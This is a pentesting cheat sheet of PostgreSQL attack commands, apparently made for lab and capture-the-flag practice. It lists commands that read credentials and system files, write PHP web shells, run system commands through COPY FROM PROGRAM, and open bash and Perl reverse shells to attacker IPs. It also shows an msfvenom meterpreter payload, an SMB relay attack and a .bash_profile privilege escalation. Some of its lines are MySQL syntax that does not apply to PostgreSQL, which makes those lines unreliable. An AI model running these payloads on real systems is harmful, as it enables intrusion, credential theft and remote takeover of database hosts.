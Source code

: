 # Postgresql

### Basic commands&#x20;

{% code overflow="wrap" %}
```bash
# Access to postgresql database
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

psql -h 192.168.80.47 -p 5437 -U postgres -W 

# List the database
> \list
# Connect to the database
> \c <database name>
# List the tables
> \d
# Get user role
> \du+ 

# Enumerate the version number
> SELECT version(); 

# Read credentials
SELECT usename, passwd from pg_shadow;

# Dump a file
SELECT * FROM mytable INTO dumpfile '/tmp/somefile'

# Dump a PHP shell
SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php' 

# Dump a PHP shell (2)
SELECT "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php' 

# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;

# Read file 
SELECT LOAD_FILE('/etc/passwd')
SELECT LOAD_FILE(0x633A5C626F6F742E696E69) 
SELECT load_file("/etc/passwd") from information_schema
```
{% endcode %}

### Create a user

```bash
# Create a user
CREATE USER 'netspi'@'%' IDENTIFIED BY 'password'

# Drop a user
DROP USER netspi
```

### RCE

{% code overflow="wrap" %}
```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

# PGP - Peppo box
DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'uname -a'; SELECT * FROM cmd_exec; DROP TABLE IF EXISTS cmd_exec;

# HTB - Jupitar 
DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.66/4444 0>&1\"';SELECT * FROM cmd_exec;DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

### SMB Relay

{% code overflow="wrap" %}
```bash
## Create a revere shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR.IP.GOES.HERE LPORT=443 -f exe > reverse_shell.exe

# Set up a SMB relay
smbrelayx.py -h <victim IP> -e ./reverse_shell.exe

# Execute any one of the SQL commands below
select load_file('\\\\<kali ip>\\aa');
select load_file(0x5c5c5c5c3139322e3136382e302e3130315c5c6161);
select 'netspi' into dumpfile '\\\\<kali ip>\\aa';
select 'netspi' into outfile '\\\\<kali ip>\\aa';
load data infile '\\\\<kali ip>\\aa' into table database.table_name;
```
{% endcode %}

### Privilege Escalation

{% code overflow="wrap" %}
```bash
# Assume that the root process is calling 'su -p postgresql' constantly via cron. 
# You place your privilege escalation binary to .bash_profile in the login directory.

> COPY (SELECT CAST('/tmp/privesc/privesc.binary' AS text)) TO '/var/lib/postgresql/.bash_profile'; 

# Grab a source code and compile with gcc -o privesc.binary file.c -static
https://www.errno.fr/TTYPushback.html
```
{% endcode %}



For more commands, check out the following site.&#x20;

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

[https://sqlwiki.netspi.com/attackQueries/informationGathering/#postgresql](https://sqlwiki.netspi.com/attackQueries/informationGathering/#postgresql)
